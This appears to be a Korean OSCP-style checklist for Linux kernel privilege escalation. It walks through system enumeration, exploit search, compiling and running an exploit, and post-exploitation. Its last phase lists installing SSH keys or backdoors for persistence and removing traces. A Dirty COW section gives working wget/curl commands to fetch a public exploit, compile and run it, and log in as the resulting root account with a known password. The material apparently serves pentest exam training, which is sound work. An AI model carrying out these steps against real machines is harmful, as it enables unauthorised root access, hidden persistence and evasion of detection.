 ## 📋 단계별 체크리스트

### Phase 1: 시스템 정보 수집 (2분)

- [ ] **커널 버전**: `uname -r` 정확한 버전 기록
- [ ] **OS 정보**: `/etc/os-release` 배포판과 버전 확인
- [ ] **아키텍처**: `uname -m` (x86, x64, ARM 등)
- [ ] **컴파일 환경**: gcc, make 등 도구 존재 여부
- [ ] **권한 확인**: 현재 사용자 권한 및 제약사항

### Phase 2: 익스플로잇 검색 (3분)

- [ ] **자동화 도구**: linux-exploit-suggester 실행
- [ ] **searchsploit**: 커널 버전별 익스플로잇 검색
- [ ] **CVE 데이터베이스**: 알려진 취약점 매칭
- [ ] **GitHub 검색**: 최신 익스플로잇 코드 확인
- [ ] **우선순위 정렬**: 성공률과 안정성 기준

### Phase 3: 익스플로잇 실행 (5-10분)

- [ ] **코드 다운로드**: 선택된 익스플로잇 코드 획득
- [ ] **소스 분석**: 코드 검토 및 수정 필요성 확인
- [ ] **컴파일**: 타겟 시스템에서 바이너리 빌드
- [ ] **실행 준비**: 실행 권한 및 환경 설정
- [ ] **익스플로잇 실행**: 단계별 실행 및 결과 확인

### Phase 4: 성공 후 안정화 (1분)

- [ ] **root 권한 확인**: `id && whoami`
- [ ] **쉘 안정화**: `/bin/bash -i` 실행
- [ ] **지속성 확보**: SSH 키나 백도어 설치
- [ ] **흔적 제거**: 컴파일된 파일들 정리

## 🎯 OSCP에서 자주 나오는 커널 익스플로잇

### 🔥 Dirty COW (CVE-2016-5195)

```bash
# 취약한 버전: Linux Kernel 2.6.22 - 4.8.3
# 확인 방법
uname -r | grep -E "^(2\.6\.|3\.|4\.[0-8]\.)"

# 익스플로잇 다운로드
wget https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
# 또는
curl -O https://www.exploit-db.com/download/40839

# 컴파일 및 실행
gcc -pthread dirty.c -o dirty -lcrypt
./dirty

# 새로운 암호로 root 로그인
su firefart  # password: dirtyCowFun
```
